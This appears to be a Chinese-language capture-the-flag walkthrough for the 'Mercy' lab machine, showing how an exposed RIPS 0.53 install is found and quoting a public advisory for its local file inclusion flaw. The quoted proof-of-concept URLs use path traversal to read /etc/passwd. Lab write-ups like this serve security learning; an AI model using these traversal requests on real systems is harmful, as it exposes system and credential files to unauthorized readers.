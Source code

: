 ```text
# http://192.168.37.132/mercy/index
Welcome to Mercy!

We hope you do not plead for mercy too much. If you do, please help us upgrade our website to allow our visitors to obtain more than just the local time of our system.
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403251401776.png" alt="image-20240325131406077" style="zoom:50%;" />

找了一下这个RIPS是个神魔东溪：

>  `RIPS - A static source code analyser for vulnerabilities in PHP scripts`
>
> RIPS is the most popular static code analysis tool to automatically detect vulnerabilities in PHP applications. By tokenizing and parsing all source code files, RIPS is able to transform PHP source code into a program model and to detect sensitive sinks (potentially vulnerable functions) that can be tainted by userinput (influenced by a malicious user) during the program flow. Besides the structured output of found vulnerabilities, RIPS offers an integrated code audit framework.
>
> `IPS-针对PHP脚本中漏洞的静态源代码分析器`
>
> RIPS是最流行的静态代码分析工具，用于自动检测PHP应用程序中的漏洞。通过标记化和解析所有源代码文件，RIPS能够将PHP源代码转换为程序模型，并检测在程序流期间可能被用户输入(受恶意用户影响)污染的敏感接收器(潜在易受攻击的函数)。除了结构化输出发现的漏洞外，RIPS还提供了一个集成的代码审计框架。

不管它是啥，它漏了版本，找一下是否存在漏洞：

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403251401777.png" alt="image-20240325131802413" style="zoom:50%;" />

存在文件包含漏洞，阔以，下载下来看一下：

```bash
# RIPS <= 0.53 Multiple Local File Inclusion Vulnerabilities
# Google Dork: allintitle: "RIPS - A static source code analyser for
vulnerabilities in PHP scripts"
# Althout this script is not intended to be accesible from internet, there
are some websites that host it.
# Download: http://sourceforge.net/projects/rips-scanner/
# Date: 23/03/12
# Contact: mattdch0@gmail.com
# Follow: @mattdch
# www.localh0t.com.ar


File: /windows/code.php
=======================

102: file $lines = file($file);
    96: $file = $_GET['file'];

PoC:
http://localhost/rips/windows/code.php?file=../../../../../../etc/passwd

File: /windows/function.php
===========================

    64: file $lines = file($file);
        58: $file = $_GET['file'];

PoC:
http://localhost/rips/windows/function.php?file=../../../../../../etc/passwd(will
read the first line of the file) 
```
